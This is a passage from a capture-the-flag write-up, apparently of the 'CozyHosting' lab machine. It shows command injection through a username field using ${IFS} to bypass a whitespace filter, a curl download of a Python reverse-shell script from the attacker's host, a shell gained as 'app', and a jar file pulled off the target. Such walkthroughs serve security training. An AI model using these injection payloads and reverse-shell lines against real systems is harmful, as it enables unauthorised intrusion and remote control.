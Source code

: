 We have a way to avoid this, by utilizing `${IFS}`. In bash, this is treated as a space, and can be utilized to bypass the whitespace filter if it is indeed executed as shell command.

Using ${IFS} to curl:
```
kali@10.10.14.134;curl${IFS}10.10.14.134;#
```

On our attacker machine:
```
$ nc -nvlp 80
listening on [any] 80 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.105.187] 46286
GET / HTTP/1.1
Host: 10.10.14.134
User-Agent: curl/7.81.0
Accept: */*
```

We have a hit! So now, hopefully we can supply a rev shell 1 liner and get a reverse shell!

After struggling with reverse shells for a while, I finally got a working solution. Generate rev.py on kali machine:
```
$ cat rev.py          
import os,pty,socket;s=socket.socket();s.connect(("10.10.14.134",8888));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")
```

Pick it up with curl command on server:
```
kali@10.10.14.134;curl${IFS}10.10.14.134/rev.py${IFS}-o${IFS}/tmp/rev.py
```
on my kali, python server:
```
$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.129.105.187 - - [03/Sep/2023 00:29:36] "GET /rev.py HTTP/1.1" 200 -
```


Finally, launch the python script once again in the username box:
```
kali@10.10.14.134;python3${IFS}/tmp/rev.py;#
```

meanwhile on my listener:
```
$ nc -vnlp 8888
listening on [any] 8888 ...
connect to [10.10.14.134] from (UNKNOWN) [10.129.105.187] 47932
app@cozyhosting:/app$ whoami
whoami
app
app@cozyhosting:/app$
```
### User Enumeration
In the current working directory, we have a compiled jar file:
```
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar
```
This can be extracted very simply, but first I will transfer this to my kali machine
```
app@cozyhosting:/app$ python3 -m http.server 8888
```
On the kali:
```
$ wget cozyhosting.htb:8888/cloudhosting-0.0.1.jar                                         
--2023-09-03 01:16:45--  http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar
```